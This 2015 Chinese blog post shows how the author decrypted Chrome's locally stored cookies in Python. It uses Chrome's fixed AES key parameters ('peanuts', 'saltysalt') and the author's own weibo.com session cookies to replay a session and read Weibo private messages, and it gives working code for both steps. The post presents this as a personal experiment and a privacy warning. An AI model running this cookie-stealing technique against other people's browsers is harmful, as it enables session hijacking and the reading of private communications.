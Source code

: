 title: 利用cookie查看微博私信 
tags: 
- http
- cookie
- python
- aes
- chrome
category: coding
date: 2015-02-27 23:15
---

记得还是在学Qt编程的时候，做过一个练手项目，产品是一个搜索Chrome的cookie内容的小软件。Chrome的cookie保存在用户目录的一个sqlite文件中，具体路径上网搜一下就知道了。当时比较天真，想看看cookie里面有没有明文保存的密码，结果当然是得到一堆乱码，最后就不了了之了。
<!-- more --> 
直到前几天，我正在网上看一篇关于cookie的文章，忽然想起一件事情，我需要密码的原因无非是用来登录，我既然有了cookie直接发给服务器就可以了，又有什么必要了解cookie的内容？我顺手用chrome打开了微博私信查看下它的请求流程：
![cookie-request-flow](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824063.png)


貌似理论上没有什么问题，不过还是要做个试验验证一下，我准备尝试用python写个小程序模拟浏览器向微博服务器发起私信消息的页面请求。

当然首先还是让我的小伙伴给我发条私信：
![cookie-message](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824132.png)
##具体实现
整个实验我简单的作了个概念图：
![cookie-flow](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824183.png)

实验主要分为以下几个步骤：
 * 从chrome的sqlite文件中提取cookie
 * 模拟浏览器组装header
 * 向服务器发起目标页面的请求

###提取chrome的cookie信息
chrome的cookie保存路径在三大操作系统Windows、Linux和OSX上都不尽相同，以linux为例，它的保存路径就是`～/.config/chromium/Default/Cookies`，我们先用sqlite3程序把这个文件载入进来看看：
![cookie-tables](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/14251182423.png)
cookie信息都保存在表`cookies`中，但是才刚开始就出现了意想不到的问题：
![cookie-values-problem](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824283.png)

表里面的值和记忆中的大部分都是一样的，唯独最重要的value一项，居然是空的，而在末尾倒是多了个`encrypted_value`項。谷歌了一下，了解到在chrome版本33之前，cookie都是直接存储的，在33+之后，谷歌开始对cookie的信息进行了加密。顺便感慨下时光飞逝，不知不觉又老了几个版本。chrome在windows上加密采用的是CryptUnprotectData函数，解密方法大家可以看[这里](http://www.ftium4.com/chrome-cookies-encrypted-value-python.html)。Linux和OSX上的加密方法相似，都采用的是AES(CBC)加密方法，了解密码学的都知道对这个数据进行解密至少需要好几个值，salt，key length，iv，password，iterations等等。不过不幸的是一位国外的网友n8henrie在浏览了chromium源码之后把这些值统统找到了，以下是他原话：
 
* salt is `b'saltysalt'`
* key length is `16`
* `iv` is 16 bytes of space `b' ' * 16`
* on `Mac OSX`:
    `password` is in keychain under `Chrome Safe Storage`
    I use the excellent keyring package to get the password
    You could also use bash: `security find-generic-password -w -s "Chrome Safe Storage"`
    number of iterations is `1003`
* on Linux:
    password is `peanuts`
    number of iterations is `1`

顺便贴出他给出的源代码(可能是原作者的失误，在clean函数中忘记调用了ord函数，特此补上)：

```
#! /usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# Function to get rid of padding
def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

# replace with your encrypted_value from sqlite3
encrypted_value = ENCRYPTED_VALUE 

# Trim off the 'v10' that Chrome/ium prepends
encrypted_value = encrypted_value[3:]

# Default values used by both Chrome and Chromium in OSX and Linux
salt = b'saltysalt'
iv = b' ' * 16
length = 16

# On Mac, replace MY_PASS with your password from Keychain
# On Linux, replace MY_PASS with 'peanuts'
my_pass = MY_PASS
my_pass = my_pass.encode('utf8')

# 1003 on Mac, 1 on Linux
iterations = 1003

key = PBKDF2(my_pass, salt, length, iterations)
cipher = AES.new(key, AES.MODE_CBC, IV=iv)

decrypted = cipher.decrypt(encrypted_value)
print(clean(decrypted))
```
我稍微改了下源代码，对上图header里的cookie的第一項尝试进行解密：
```
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

def clean(x): 
    return x[:-ord(x[-1])].decode('utf8')

def decrypt(encrypted_value):
    encrypted_value = encrypted_value[3:]

    salt = b'saltysalt'
    iv = b' ' * 16
    length = 16

    my_pass = 'peanuts'
    my_pass = my_pass.encode('utf8')

    iterations = 1

    key = PBKDF2(my_pass, salt, length, iterations)
    cipher = AES.new(key, AES.MODE_CBC, IV=iv)
    decrypted = cipher.decrypt(encrypted_value)
    
    return clean(decrypted)

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()

cu.execute("select * from cookies where host_key = '.weibo.com' and name = 'SINAGLOBAL'")
    
res = cu.fetchone()
    
print decrypt(res[len(res)-1])
```

结果显示n8henrie给出的值确实是正确的，解密成功。
![cookie-value-chrome](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824335.png)
![cookie-chomre](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824386.png)

这个值我们不知道有什么意义，因为本来就不需要，直接把它发给服务器就好，服务器自己知道怎么解密的。

cookie值解密出来之后，感觉就像是突然变成了宿管阿姨，手里握着整栋宿舍的钥匙。
###组装header
组装header这里比较容易了，基本上照着上面截下来的Chrome的header照抄就好了，不过要注意的是记得把`Accept-Encoding:gzip，deflate，sdch`这一项去掉，不然返回的数据是经过压缩的，最后再加上解密出来的cookie，一个完整的header就出来了。

```
import sqlite3
import urllib2
import os

cx = sqlite3.connect(os.path.expandvars('$HOME') + '/.config/chromium/Default/Cookies')
cu = cx.cursor()
cu.execute("select * from cookies where host_key = '.weibo.com'")

cookies = ''

for res in cu.fetchall(): 
    cookies += res[2] + '=' + decrypt(res[len(res)-1]) + '; '

url = 'http://weibo.com/messages'

header = {
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        #'Accept-Encoding': 'gzip, deflate, sdch',
        'Accept-Language': 'zh-CN,zh;q=0.8,en;q=0.6,ja;q=0.4,zh-TW;q=0.2',
        'Cache-Control': 'max-age=0',
        'Connection': 'keep-alive',
        'Host': 'weibo.com',
        'Cookie': cookies,
        'User-Agent': 'Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Ubuntu Chromium/40.0.2214.111 Chrome/40.0.2214.111 Safari/537.36'
}
request = urllib2.Request(url, headers=header)
```
###发送请求
最后一步发送请求，把返回的数据打开看一下，私信消息已经在里面了。
![cookie-msg-decode](http://ccxcu.img43.wal8.com/img43/507748_20150118041318/142511824443.png)

##结语
没想到整个过程还算是比较顺利的，而且还是在linux平台。随后我又在windows和OSX上进行了试验，windows的解密要更简单一点，而在OSX上获取`Chrome Safe Storage`的`password`的时候系统提醒需要获取授权，也就是说从目前来看只有苹果系挡住了这次攻击。不得不说cookie确实给我们带来了太多的便利，但是与此同时也牺牲了太多的安全性，网络发展到今天很多事情已经超出可控的范围，尤其是在中国这种软件氛围，谁知道各大软件产商有什么做不出来的，想要保护好自己，只能靠自己平时多长点心眼了。

##Q&A
* Q：为什么我直接用你的代码返回404？
* A：你要先用chrome至少浏览一次私信，不然哪来的cookie。
<br />
* Q：为什么选择微博私信做实验？
* A：因为我知道你们用的是微信而不是私信。
<br />
* Q：你是在本机运行的，劫持自己的信息可以，怎么劫持别人的信息？
* A：一般人不行，但是软件产商可以。
<br />
* Q：为什么每个用户只有一条私信？不可以看到所有的对话嘛？
* A：可以，但这里只是做为实验，不可有小人之心，但不能不防小人
<br />
* Q：有了cookie除了看私信还能干什么？
* A：不知道。

最后感谢下caixpp童鞋发了封私信，还有，用完数据库记得close。
##References
* http://stackoverflow.com/questions/23153159/decrypting-chrome-iums-cookies/23727331#23727331
* http://n8henrie.com/2014/05/decrypt-chrome-cookies-with-python/
* http://www.ftium4.com/chrome-cookies-encrypted-value-python.html

##转载请注明
原文地址： [http://mafagan.sinaapp.com/2015/02/26/cookie-hack/](http://mafagan.sinaapp.com/2015/02/26/cookie-hack/)
